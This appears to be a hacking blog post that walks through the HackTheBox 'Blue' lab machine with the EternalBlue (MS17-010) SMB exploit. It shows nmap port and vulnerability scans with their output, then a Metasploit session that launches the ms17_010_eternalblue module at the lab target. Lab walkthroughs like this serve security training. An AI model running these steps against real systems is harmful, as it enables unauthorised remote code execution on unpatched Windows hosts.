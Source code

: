 ```yaml
---
title: "How to Hack Windows with EternalBlue"
comments: true
author: Gerh
featured-img: EternalBlue
image: "https://hackingprofessional.github.io/Security/images/EternalBlue.jpg"
description: "Using the NSA's EternalBlue exploit"
categories: [Hacking Windows, Hacking from 0, Metasploit Framework, 0 Day]
---
```


Hello Hackers!!  
On April 8 the group The Shadow Brokers after entering the systems of the NSA, to expose in their Github the tools they found.  

Within the filtered tools, there is an exploit (EternalBlue) that allows exploiting a vulnerability in the SMB protocol version 1, and of this way can execute Remote Code (RCE) on the victim machine gaining access to the system.  

  - Microsoft Bulletin: [MS17-010(Critical)](https://www.microsoft.com/en-us/msrc?rtc=1)  
  - Common Vulnerabilities and Exposures: [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)  

### ¿WHAT EFFECT HAVE THIS VULNERABILITY?*  
This vulnerability was used to propagate Ransomware Wanna Cry, which encrypted data from companies, and medical centers. To date, there are many variants of Ransomeware.  

## Hacking [Blue](https://www.hackthebox.eu/home/machines/profile/51)
Today we will learn how to exploit this vulnerability using Metasploit, for this demonstration an intrusion test will be performed towards the [Blue](https://www.hackthebox.eu/home/machines/profile/51) machine of the HackTheBox platform.

### Network Enumeration
Let’s start with a quick NMAP scan to discover open ports.

```shell
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3673]
╰─[:)] # nmap -p- -sV -T4 -oN Blue.nmap 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 08:54 -05
Nmap scan report for 10.10.10.40
Host is up (0.39s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Apparently, the team is running the SMB service with port 445.  
We will continue listing this service, for this we will use nmap scripts specifically for the SMB service.
SMB, is a network protocol that allows files, printers and others services to be shared between nodes of a network of computers that use the Microsoft Windows operating system.  
[Full Article](https://en.wikipedia.org/wiki/Server_Message_Block)

### Scanning vulnerabilities using Nmap scripts for an audit
Nmap is highly recognized in the world of Informatic security for its functionality of scanning networks, ports and services. However, the tool has been improving over the years, offering more and more possibilities that are very interesting. Currently incorporates the use of scripts to check some of the most known vulnerabilities, Which are classified in:

  - Auth: Run all your scripts available for authentication
  - Default: Executes the default basic scripts of the tool
  - Discovery: Retrieve information from the target or victim
  - External: Script to use external resources
  - Intrusive: Uses scripts that are considered intrusive to the victim or target
  - Malware: Check for malicious code connections or backdoors (backdoors)
  - Safe: Executes the scripts not intrusive
  - Vuln: Discover the most known vulnerabilities
  - All: Runs absolutely all scripts with NSE extension available

To perform a search of the scripts related to SMB and use them with Nmap, we do the following: 

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # ls /usr/share/nmap/scripts/ | grep "smb-vuln"
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
```

Let's try all the previous scripts for port 445 of the SMB service.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script=smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:24 -05
Nmap scan report for 10.10.10.40
Host is up (0.69s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

Another way to evaluate the above is using the scripts of the category *vuln.*

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script vuln -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:22 -05
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.40
Host is up (0.20s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

With the results of the previous scans, we were able to identify the following:

  - OS: Windows 7
  - Computer name: HARIS-PC
  - VULNERABLE smb-vuln-ms17-010

After identifying that our machine is vulnerable to EternalBlue, we are going to use a metasploit module that allows us to exploit this vulnerability. 

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # msfconsole
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40    <--> IP Victima
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

<script id="asciicast-239838" src="https://asciinema.org/a/239838.js" async></script>

In this way we can completely commit a computer with the Windows operating system, thanks to the exposed vulnerability.
